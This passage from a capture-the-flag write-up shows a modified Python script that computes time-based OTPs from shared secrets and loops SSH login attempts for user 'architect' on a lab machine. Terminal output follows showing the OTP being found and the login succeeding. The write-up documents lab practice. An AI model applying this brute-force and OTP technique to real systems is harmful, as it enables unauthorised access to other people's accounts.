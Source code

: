 ```py
    #shared secret token for OTP calculation
    sharedSecret1 = {Redacted_SST_1}
    sharedSecret2 = {Redacted_SST_2}
    sharedSecret3 = {Redacted_SST_3}
    # Change to the machine's IP
    targetIPAdress = '10.10.95.198'
    
    timeSimulatorClient = TimeSimulatorClient(sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress)

    # Change timezone & sync to the time server
    timeSimulatorClient.setTimeZone()
    timeSimulatorClient.syncTime()

    # Brute forcing SSH with computed OTP
    SSHUsername = 'architect'
    while True:
        OTP = timeSimulatorClient.getOTP()
        bruteForceResult = timeSimulatorClient.bruteForceSSH(SSHUsername, OTP)

        if bruteForceResult is True:
            print(f'[+] Found the correct OTP! {SSHUsername}:{OTP}')
            break

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied/BlackCat-attachments/DevTools)-[2023.01.27|14:24:24(HKT)]
└> python3 modified_timeSimulatorClient.py 
[*] Setting timezone to UTC
[*] Before:
               Local time: Fri 2023-01-27 14:24:52 HKT
           Universal time: Fri 2023-01-27 06:24:52 UTC
                 RTC time: Fri 2023-01-27 06:24:52
                Time zone: Asia/Hong_Kong (HKT, +0800)
System clock synchronized: yes
              NTP service: active
          RTC in local TZ: no
[+] Timezone has been changed to UTC
[+] Synced to the time server
[+] Found the correct OTP! architect:{Redacted}
```

**Nice! Let's SSH into user `architect` fast! (The OTP will changed after 60 seconds)**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.27|06:35:19(UTC)]
└> ssh architect@$RHOSTS
"Give up now... There is no escape from the matrix" -Agent Smith
architect@10.10.95.198's password: 
[...]
"I have been expecting you... You are on time..." -the architect
[...]
architect@matrixV99:~$ whoami;hostname;id;ip a
architect
matrixV99.2
uid=1000(architect) gid=1000(architect) groups=1000(architect),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
```